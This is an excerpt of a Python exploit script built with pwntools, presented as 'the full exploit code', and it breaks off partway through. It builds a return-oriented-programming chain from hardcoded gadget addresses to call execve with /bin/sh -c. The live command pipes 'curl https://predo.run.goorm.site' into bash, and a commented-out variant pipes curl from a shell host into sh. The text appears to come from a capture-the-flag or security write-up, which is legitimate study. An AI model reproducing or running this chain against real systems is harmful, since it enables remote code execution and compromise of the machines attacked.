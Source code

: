 Below is the full exploit code:

```python
from pwn import *
import tqdm
import string
import requests
from urllib.parse import quote

def make_rop_chain():
    # All addresses must be valid UTF-8
    PIVOT_GADGET = 0x42b06b
    SIGNUM = 0x1289500  # must be equal to dword after PIVOT_GADGET
    RW_SECTION = 0x0000000006a9d000

    SYSCALL = 0x0000000000f339d8  # syscall
    POP_RAX = 0x0000000000ecb88a  # pop rax; ret
    POP_RDI = 0x00000000012273dd  # pop rdi; ret
    POP_RSI = 0x0000000000f66719  # pop rsi; ret
    POP_RDX = 0x000000000118de62  # pop rdx; ret
    MOV_GADGET = 0x0000000001478938  # mov qword ptr [rdi], rsi ; ret

    context.arch = "amd64"

    def gadget_write_at(addr, qword):
        if isinstance(qword, bytes):
            if len(qword) > 8:
                raise ValueError("qword cannot be larger than 8 bytes")
            qword = qword.ljust(8, b"\x00")
        yield POP_RDI
        yield addr
        yield POP_RSI
        yield qword
        yield MOV_GADGET

    def gadget_create_string(addr, s):
        s = s.encode() + b"\x00"
        for i in range(0, len(s), 8):
            yield from gadget_write_at(addr + i, s[i:i+8])

    if __name__ == "__main__":
        argv = [RW_SECTION+0x100, RW_SECTION+0x200, RW_SECTION+0x300]
        argv_arr = RW_SECTION

        content = flat([
            PIVOT_GADGET,
            SIGNUM,

            # Write execve() arguments
            *gadget_create_string(argv[0], "/bin/sh"),
            *gadget_create_string(argv[1], "-c"),
            # *gadget_create_string(argv[2], f"curl {SHELL_HOST}:{SHELL_PORT}|sh"),
            #*gadget_create_string(argv[2], f"sleep 100"),
            *gadget_create_string(argv[2], f"curl https://predo.run.goorm.site|bash"),
            #! Warning: due to limited chain size, the command needs to be pretty short

            # Create argv[] array
            *gadget_write_at(argv_arr, argv[0]),
            *gadget_write_at(argv_arr + 8, argv[1]),
            *gadget_write_at(argv_arr + 16, argv[2]),

            # Run execve syscall
            POP_RAX,
            constants.SYS_execve,
```
